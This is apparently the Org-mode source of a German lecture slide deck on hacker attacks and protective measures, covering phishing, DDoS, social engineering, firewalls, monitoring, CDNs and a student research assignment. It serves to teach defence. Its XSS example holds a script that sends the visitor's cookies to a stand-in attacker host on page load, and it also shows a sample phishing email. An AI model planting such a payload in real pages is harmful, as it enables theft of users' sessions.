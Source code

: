 :LaTeX_PROPERTIES:
#+LANGUAGE: de
#+OPTIONS: d:nil todo:nil pri:nil tags:nil
#+OPTIONS: H:4
#+LaTeX_CLASS: orgstandard
#+LaTeX_CMD: xelatex
#+LATEX_HEADER: \usepackage{listings}
:END:


:REVEAL_PROPERTIES:
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+REVEAL_REVEAL_JS_VERSION: 4
#+REVEAL_THEME: league
#+REVEAL_EXTRA_CSS: ./mystyle.css
#+REVEAL_HLEVEL: 1
#+OPTIONS: timestamp:nil toc:nil num:nil
:END:

#+TITLE: Hackerangriffe und Schutzmaßnahmen
#+SUBTITLE: IT-Sicherheit
#+AUTHOR: ITT-Net-IS

#+LATEX: \def\square{\text{☐}}\relax\def\boxtimes{\text{☑}}\relax 

* Einführung
"Hackerangriff" bezeichnet einen Versuch, unbefugten Zugriff auf ein Computersystem, Netzwerk oder Daten zu erlangen. Während der Begriff "Hacker" ursprünglich Personen mit tiefgreifendem Technikverständnis beschrieb, wird er heute oft mit Cyberkriminellen assoziiert.


* Arten von Hackerangriffen
** Phishing-Angriffe
Phishing zielt darauf ab, vertrauliche Informationen wie Passwörter oder Kreditkartendaten durch Täuschung zu erlangen.

#+BEGIN_NOTES
"Phishing" kommt vom englischen "fishing" (Angeln) und bezeichnet den Versuch, Informationen "zu angeln", indem gefälschte Identitäten oder Websites verwendet werden.
#+END_NOTES

*** Phishing-Varianten
#+ATTR_REVEAL: :frag (appear)
- *Spear-Phishing*: Zielt auf bestimmte Personen oder Organisationen ab
- *Whaling*: Spezifisch auf hochrangige Führungskräfte ausgerichtet
- *Smishing*: Phishing über SMS
- *Vishing*: Phishing über Telefonanrufe (Voice-Phishing)

*** Beispiel: Typische Phishing-E-Mail
#+BEGIN_EXAMPLE
Von: security@bank-service-verify.com
Betreff: Dringende Sicherheitswarnung - Handlung erforderlich

Sehr geehrter Kunde,

Wir haben ungewöhnliche Aktivitäten auf Ihrem Konto festgestellt. 
Um eine Sperrung zu verhindern, bestätigen Sie bitte Ihre Identität unter:
https://bank-verfication-secure.com/login

Mit freundlichen Grüßen,
Ihr Sicherheitsteam
#+END_EXAMPLE

** DDoS-Angriffe (Distributed Denial of Service)
DDoS-Angriffe überlasten Systeme oder Netzwerke mit Anfragen, bis sie nicht mehr reagieren können.

#+BEGIN_NOTES
"DDoS" steht für "Distributed Denial of Service". Der Angriff wird von vielen verschiedenen Quellen gleichzeitig ausgeführt, was ihn schwer zu blockieren macht.
#+END_NOTES

*** DDoS-Arten
#+ATTR_REVEAL: :frag (appear)
- *Volumetrische Angriffe*: Überschwemmen Netzwerkbandbreite
- *Protokollangriffe*: Ausnutzen von Schwachstellen in Netzwerkprotokollen
- *Anwendungsangriffe*: Zielen auf spezifische Anwendungen oder Dienste ab

** Social Engineering
Bei Social Engineering werden psychologische Manipulation eingesetzt, um Opfer zur Preisgabe vertraulicher Informationen zu bewegen.

#+BEGIN_NOTES
"Social Engineering" bezeichnet Techniken der zwischenmenschlichen Manipulation, um Menschen dazu zu bringen, normale Sicherheitsmaßnahmen zu umgehen.
#+END_NOTES

*** Häufige Social Engineering-Taktiken
#+ATTR_REVEAL: :frag (appear)
- *Vorwand-Anrufe* ("Pretexting"): Erfundene Szenarien zur Informationsgewinnung
- *Baiting*: Anbieten von etwas Verlockenden (z.B. kostenlose Downloads), um Schadsoftware zu verbreiten
- *Quid Pro Quo*: Versprechen eines Vorteils im Austausch für Informationen
- *Tailgating*: Unbefugtes Folgen einer autorisierten Person in gesicherte Bereiche

** Andere verbreitete Angriffsarten
#+ATTR_REVEAL: :frag (appear)
- *SQL-Injection*: Einschleusen von schädlichem SQL-Code in Datenbankanfragen
- *Cross-Site Scripting (XSS)*: Einbetten bösartiger Skripte in Webseiten
- *Man-in-the-Middle (MITM)*: Abfangen und möglicherweise Manipulieren von Kommunikation
- *Brute-Force*: Systematisches Durchprobieren aller möglichen Passwörter
- *Zero-Day-Exploits*: Ausnutzen unbekannter Sicherheitslücken


*** Beispiel: Cross-Site Scripting (XSS)
#+BEGIN_SRC html
<!-- Böswilliger Kommentar auf einer Website -->
<script>
  document.addEventListener('DOMContentLoaded', function() {
    var img = new Image();
    img.src = 'https://angreifer.com/stehlen?cookies=' + encodeURIComponent(document.cookie);
    img.style.display = 'none';
    document.body.appendChild(img);
  });
</script>
#+END_SRC

* Schutzmaßnahmen gegen Hackerangriffe
** Technische Schutzmaßnahmen
*** Firewalls und Netzwerksicherheit
#+ATTR_REVEAL: :frag (appear)
- Implementierung und Konfiguration von Firewalls
- Segmentierung von Netzwerken
- Verwendung von Virtual Private Networks (VPNs)
- Regelmäßige Netzwerküberwachung

#+BEGIN_NOTES
Eine "Firewall" ist ein Sicherheitssystem, das den Netzwerkverkehr basierend auf vordefinierten Sicherheitsregeln überwacht und kontrolliert.
#+END_NOTES

*** Beispiel: Einfache iptables-Firewall-Konfiguration
#+BEGIN_SRC bash
  # Grundlegende iptables-Firewall-Regeln
  
  # Standardrichtlinien: Alles ablehnen
  iptables -P INPUT DROP
  iptables -P FORWARD DROP
  iptables -P OUTPUT ACCEPT
  
  # Lokale Verbindungen erlauben
  iptables -A INPUT -i lo -j ACCEPT
  
  # Bestehende Verbindungen erlauben
  iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
  
  # SSH auf Port 22 erlauben
  iptables -A INPUT -p tcp --dport 22 -j ACCEPT
  
  # HTTP und HTTPS erlauben
  iptables -A INPUT -p tcp --dport 80 -j ACCEPT
  iptables -A INPUT -p tcp --dport 443 -j ACCEPT
#+END_SRC

*** Aktualisierte Software und Patch-Management
#+ATTR_REVEAL: :frag (appear)
- Regelmäßige Updates für Betriebssysteme und Software
- Automatisierte Patch-Management-Systeme
- Zeitnahe Anwendung sicherheitsrelevanter Updates

*** Starke Authentifizierung
#+ATTR_REVEAL: :frag (appear)
- Verwendung komplexer Passwörter
- Implementierung von Zwei-Faktor-Authentifizierung (2FA)
- Biometrische Authentifizierungsmethoden
- Single Sign-On (SSO) mit starker Basisauthentifizierung

#+BEGIN_NOTES
"Zwei-Faktor-Authentifizierung (2FA)" erfordert zwei unterschiedliche Authentifizierungsfaktoren: etwas, das man weiß (Passwort), besitzt (Smartphone) oder ist (Fingerabdruck).
#+END_NOTES


*** Verschlüsselung
#+ATTR_REVEAL: :frag (appear)
- Festplattenverschlüsselung
- Verschlüsselung der Kommunikation (TLS/SSL)
- E-Mail-Verschlüsselung (PGP/GPG)
- Verschlüsselung von Backups

*** Regelmäßige Backups
#+ATTR_REVEAL: :frag (appear)
- 3-2-1-Backup-Strategie: 3 Kopien, 2 verschiedene Medien, 1 Off-Site
- Regelmäßige Tests der Wiederherstellungsprozesse
- Unveränderliche (immutable) Backups gegen Ransomware

** Organisatorische Schutzmaßnahmen
*** Sicherheitsrichtlinien und -verfahren
#+ATTR_REVEAL: :frag (appear)
- Dokumentierte Sicherheitsrichtlinien
- Klare Verantwortlichkeiten und Rollen
- Incident-Response-Pläne
- Regelmäßige Sicherheitsaudits

#+BEGIN_NOTES
"Incident-Response-Plan" ist ein dokumentierter Ablaufplan, der festlegt, wie eine Organisation auf Sicherheitsvorfälle reagieren soll.
#+END_NOTES

*** Mitarbeiterschulung und Sensibilisierung
#+ATTR_REVEAL: :frag (appear)
- Regelmäßige Sicherheitsschulungen
- Phishing-Simulationen
- Sicherheitsbewusstsein im Arbeitsalltag fördern
- Klare Meldewege für verdächtige Aktivitäten

*** Beispiel: Checkliste für Sicherheitsbewusstsein

#+ATTR_REVEAL: :frag (appear)
 - [ ] Verdächtige E-Mails an IT-Sicherheit melden
 - [ ] Keine unbekannten USB-Sticks verwenden
 - [ ] Starke, einzigartige Passwörter für jeden Dienst nutzen
 - [ ] Zwei-Faktor-Authentifizierung aktivieren
 - [ ] Öffentliches WLAN nur mit VPN nutzen
 - [ ] Bildschirm sperren, wenn Arbeitsplatz verlassen wird
 - [ ] Regelmäßig an Sicherheitsschulungen teilnehmen
 - [ ] Vorsicht bei unerwarteten Anhängen oder Links


*** Zugriffskontrollen und Berechtigungsverwaltung
#+ATTR_REVEAL: :frag (appear)
- Prinzip der geringsten Berechtigung
- Regelmäßige Überprüfung von Zugriffsrechten
- Prozesse für Onboarding und Offboarding von Mitarbeitern
- Privilegierte Konten besonders schützen

#+BEGIN_NOTES
Das "Prinzip der geringsten Berechtigung" (Principle of Least Privilege) besagt, dass Benutzer nur die minimal notwendigen Rechte erhalten sollten, um ihre Aufgaben zu erfüllen.
#+END_NOTES

** Überwachung und Reaktion
*** Sicherheitsüberwachung
#+ATTR_REVEAL: :frag (appear)
- Intrusion Detection/Prevention Systeme (IDS/IPS)
- Security Information and Event Management (SIEM)
- Anomalieerkennung
- Honeypots zur Angriffserkennung

#+BEGIN_NOTES
"SIEM" (Security Information and Event Management) sammelt und analysiert Sicherheitsdaten aus verschiedenen Quellen, um Bedrohungen zu erkennen und darauf zu reagieren.
#+END_NOTES

*** Beispiel: Log-Analyse mit ELK Stack
#+BEGIN_SRC bash
  # Beispiel für einfache Analyse von Zugriffsprotokollen mit grep
  # Suche nach fehlgeschlagenen SSH-Anmeldeversuchen
  
  grep "Failed password" /var/log/auth.log | \
      awk '{print $11}' | \
      sort | uniq -c | sort -nr | \
      head -n 10
#+END_SRC

*** Incident Response
#+ATTR_REVEAL: :frag (appear)
- Festgelegte Reaktionspläne für verschiedene Angriffsszenarien
- Klar definierte Rollen und Verantwortlichkeiten
- Kommunikationsstrategien während eines Vorfalls
- Forensische Untersuchungsprozesse

*** Penetrationstests und Schwachstellenscans
#+ATTR_REVEAL: :frag (appear)
- Regelmäßige Schwachstellenscans
- Externe Penetrationstests
- Red-Team-Übungen
- Bug-Bounty-Programme

#+BEGIN_NOTES
"Red-Team-Übungen" sind simulierte Angriffe durch ein Team von Sicherheitsexperten, die versuchen, die Verteidigungsmaßnahmen einer Organisation zu überwinden, um Schwachstellen zu identifizieren.
#+END_NOTES


** Content Delivery Networks (CDN) als Schutzmaßnahme
Content Delivery Networks sind verteilte Netzwerke von Servern, die Website-Inhalte an verschiedenen geografischen Standorten zwischenspeichern und ausliefern.

#+BEGIN_NOTES
"CDN" steht für "Content Delivery Network" und bezeichnet ein Netzwerk geografisch verteilter Server, die zusammenarbeiten, um digitale Inhalte schnell und zuverlässig bereitzustellen. Ursprünglich zur Leistungsverbesserung entwickelt, haben CDNs heute wichtige Sicherheitsfunktionen.
#+END_NOTES

*** Funktionsweise eines CDN
#+ATTR_REVEAL: :frag (appear)
- Verteilung von Inhalten auf mehrere Server weltweit
- Auslieferung von Inhalten vom geografisch nächsten Server
- Zwischenspeicherung (Caching) statischer Inhalte
- Lastverteilung zwischen Servern
- Netzwerkoptimierung durch effiziente Routing-Mechanismen

*** CDN als DDoS-Schutz
CDNs bieten mehrere Schutzmechanismen gegen DDoS-Angriffe:

**** Angriffsverdünnung durch Verteilung
#+ATTR_REVEAL: :frag (appear)
- Verteilung des Datenverkehrs auf zahlreiche Server weltweit
- Einzelne Server werden nicht überlastet
- Angriffsdaten werden über ein größeres Netzwerk verteilt

**** Traffic-Filterung und Anomalieerkennung
#+ATTR_REVEAL: :frag (appear)
- Erkennung ungewöhnlicher Verkehrsmuster in Echtzeit
- Unterscheidung zwischen legitimen Benutzern und Angreifern
- Automatische Blockierung verdächtiger IP-Adressen
- Layer 3/4 und Layer 7 Schutz (Netzwerk- und Anwendungsebene)

**** Überkapazität und Skalierung
#+ATTR_REVEAL: :frag (appear)
- CDNs verfügen über massive Bandbreitenreserven
- Können plötzliche Verkehrsspitzen absorbieren
- Dynamische Skalierung bei Bedarf

**** Bot-Management
#+ATTR_REVEAL: :frag (appear)
- Identifizierung und Blockierung von Bot-Netzwerken
- CAPTCHA-Integration für verdächtige Anfragen
- Rate-Limiting für einzelne IP-Adressen

*** Beispiel: CDN-Konfiguration mit Cloudflare
#+BEGIN_SRC yaml
  # Beispiel einer Cloudflare-Konfiguration (als .cloudflare.yaml)
  
  # DDoS-Schutzeinstellungen
  ddos_protection:
    security_level: high      # Sicherheitsstufe (low, medium, high)
    challenge_ttl: 3600       # Gültigkeitsdauer von Sicherheitsabfragen in Sekunden
    rate_limiting:
      enabled: true
      threshold: 100          # Maximale Anfragen pro Minute
      action: challenge       # Aktion bei Überschreitung (challenge, block, js_challenge)
  
  # WAF (Web Application Firewall) Regeln
  waf:
    enabled: true
    ruleset: cloudflare      # Verwendetes Regelset
    custom_rules:
      - description: "Blockiere verdächtige User-Agents"
        expression: "http.user_agent contains 'scraper' or http.user_agent contains 'bot'"
        action: block
  
  # Caching-Einstellungen
  cache:
    enabled: true
    ttl: 86400               # Caching-Dauer in Sekunden (24 Stunden)
    browser_ttl: 14400       # Browser-Cache-Dauer (4 Stunden)
#+END_SRC

*** Vor- und Nachteile von CDNs
**** Vorteile
#+ATTR_REVEAL: :frag (appear)
- Effektiver Schutz gegen volumetrische DDoS-Angriffe
- Verbesserung der Website-Ladezeiten
- Reduzierung der Last auf Ursprungsservern
- Globale Verteilung für Ausfallsicherheit

**** Nachteile
#+ATTR_REVEAL: :frag (appear)
- Potenzielle Abhängigkeit von einem externen Dienstleister
- Mögliche Komplexität bei der Konfiguration
- Zusätzliche Kosten bei hohem Datenverkehr
- Bei unsachgemäßer Konfiguration mögliche Datenschutzprobleme

*** Einsatzstrategien für CDNs
#+ATTR_REVEAL: :frag (appear)
- Kombination mit lokalen Schutzmaßnahmen (Defense-in-Depth)
- Absicherung kritischer Webanwendungen und APIs
- Entwicklung von Notfallplänen für den Fall einer CDN-Störung
- Regelmäßige Überprüfung und Anpassung der CDN-Konfiguration

#+BEGIN_NOTES
Die Nutzung eines CDN ist eine proaktive Maßnahme, die sowohl die Leistung als auch die Sicherheit einer Website verbessert. Als Teil einer umfassenden Sicherheitsstrategie sollte ein CDN mit anderen Sicherheitsmaßnahmen wie Firewalls, Intrusion Detection und regelmäßigen Sicherheitsaudits kombiniert werden.
#+END_NOTES

* Aktuelle Angriffsszenarien (2024-2025)
** Erweiterte Phishing-Techniken
#+ATTR_REVEAL: :frag (appear)
- KI-generierte Phishing-Nachrichten
- Gezielte Spear-Phishing-Angriffe mit präzisen persönlichen Informationen
- Manipulation von Geschäftskommunikation (Business Email Compromise)
- Mehrsprachige und kulturell angepasste Phishing-Kampagnen

** Cloud-Sicherheitsbedrohungen
#+ATTR_REVEAL: :frag (appear)
- Fehlkonfigurationen in Cloud-Umgebungen
- Angriffe auf APIs
- Container-Sicherheitslücken
- Identity and Access Management (IAM) Schwachstellen

** Angriffe auf Lieferketten
#+ATTR_REVEAL: :frag (appear)
- Kompromittierung von Software-Lieferketten
- Angriffe auf vertrauenswürdige Software-Updates
- Manipulation von Open-Source-Paketen
- Kompromittierung von Entwicklungsumgebungen

#+BEGIN_NOTES
"Lieferkettenangriffe" zielen auf die Kompromittierung von Software oder Hardware während des Entwicklungs- oder Verteilungsprozesses ab, oft bevor sie den Endverbraucher erreicht.
#+END_NOTES

** IoT-Bedrohungen
- Angriffe auf unzureichend gesicherte IoT-Geräte
- Botnets aus kompromittierten IoT-Geräten
- Smart-Home-Schwachstellen
- Industrielle IoT-Sicherheitsprobleme

#+BEGIN_NOTES
"IoT" (Internet of Things) bezeichnet Alltagsgeräte, die mit dem Internet verbunden sind und Daten sammeln, austauschen und verarbeiten können.
#+END_NOTES

** Deepfakes und KI-gestützte Angriffe
#+ATTR_REVEAL: :frag (appear)
- Täuschend echte Stimm- und Videomanipulationen
- Automatisierte Social-Engineering-Angriffe
- Umgehung von biometrischen Sicherheitssystemen
- Generative KI zur Erstellung täuschend echter Phishing-Inhalte

*** Beispiel: Deepfake-basierte CEO-Betrugsmasche
#+BEGIN_EXAMPLE
Ein Finanzmanager erhält einen Videoanruf, der scheinbar vom CEO des Unternehmens kommt. 
Die Person sieht aus und klingt genau wie der CEO, ist jedoch ein Deepfake.

Der falsche CEO erklärt, dass eine dringende, vertrauliche Übernahme im Gange sei und 
sofort eine Vorauszahlung an ein Treuhandkonto geleistet werden müsse. 
Er betont die Dringlichkeit und Vertraulichkeit, um den normalen Genehmigungsprozess 
zu umgehen.
#+END_EXAMPLE

* Praxisaufgabe: Recherche aktueller Angriffsszenarien            :noexports:
:PROPERTIES:
:Abgabetermin: 2025-04-24
:Punkte: 25
:END:

** Aufgabenstellung
1. Recherchieren Sie ein aktuelles Angriffsszenario aus den Jahren 2024-2025
2. Analysieren Sie:
   - Art des Angriffs
   - Betroffene Systeme und Organisationen
   - Angriffsmethode und -verlauf
   - Auswirkungen und Schäden
   - Gegenmaßnahmen und Lehren
3. Erstellen Sie eine Präsentation (10-15 Minuten)
4. Bereiten Sie praktische Empfehlungen vor, wie sich Unternehmen vor ähnlichen Angriffen schützen können

** Bewertungskriterien
- Tiefe und Qualität der Recherche (10 Punkte)
- Verständnis der technischen Details (5 Punkte)
- Qualität der Präsentation (5 Punkte)
- Praxisrelevanz der Empfehlungen (5 Punkte)

* Literatur und weiterführende Ressourcen                         :noexports:
** Bücher
- Ross J. Anderson: "Security Engineering" (3. Auflage, 2020)
- Kim Zetter: "Countdown to Zero Day" (2015)
- Bruce Schneier: "Click Here to Kill Everybody" (2018)

** Online-Ressourcen
- OWASP Top 10: https://owasp.org/Top10/
- NIST Cybersecurity Framework: https://www.nist.gov/cyberframework
- BSI IT-Grundschutz: https://www.bsi.bund.de/grundschutz

** Podcasts und Blogs
- Darknet Diaries (Podcast)
- Passwort Podcast von Heise (Podcast)
- Risky Buisness (Podcast)
- Krebs on Security (Blog)
- The Hacker News (Website)
- heise Security (deutschsprachiges Portal)

* Glossar                                                         :noexports:
- *APT (Advanced Persistent Threat)*: Komplexe, langfristige Angriffe, oft staatlich gesponsert
- *CVE (Common Vulnerabilities and Exposures)*: Standardisierte Kennungen für bekannte Sicherheitslücken
- *Exploit*: Code oder Technik zur Ausnutzung einer Sicherheitslücke
- *Hashing*: Kryptografische Einwegfunktion zur Datenintegritätsprüfung
- *MITM (Man-in-the-Middle)*: Angriff, bei dem Kommunikation abgefangen wird
- *Pen-Test (Penetrationstest)*: Autorisierter Simulationsangriff zur Sicherheitsprüfung
- *Sandbox*: Isolierte Umgebung zum Testen potenziell gefährlicher Software
- *Zero-Day*: Unbekannte Sicherheitslücke ohne verfügbaren Patch
